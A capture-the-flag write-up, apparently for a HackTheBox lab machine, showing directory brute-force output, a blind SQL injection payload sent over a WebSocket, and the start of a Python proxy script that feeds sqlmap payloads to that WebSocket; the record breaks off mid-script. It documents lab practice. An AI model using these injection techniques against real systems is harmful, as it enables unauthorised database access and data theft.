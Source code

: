 ```sh
/SignUp               (Status: 200) [Size: 3741]
/Logout               (Status: 302) [Size: 23] [--> /]
/signUp               (Status: 200) [Size: 3741]
/Match                (Status: 200) [Size: 10078]
/LogIn                (Status: 200) [Size: 3307]
Progress: 116590 / 220561 (52.86%)[1]  + killed     leafpad note_soccer.txt
/LOGIN                (Status: 200) [Size: 3307]
Progress: 220534 / 220561 (99.99%)
===============================================================
2023/04/25 02:11:17 Finished
===============================================================
```

Perform Signup and Login 
Web display 1 function search for ticket -> using Web socket

Exploit Web socket

```sh
Server: http://soc-player.soccer.htb:9091/
{"id":"53801 or substring(version(),1,1)=8"}
```
-> this is Blind SQL injection

Using File python [Automating Blind SQL Injection](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) before i use sqlmap to auto leak data.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
```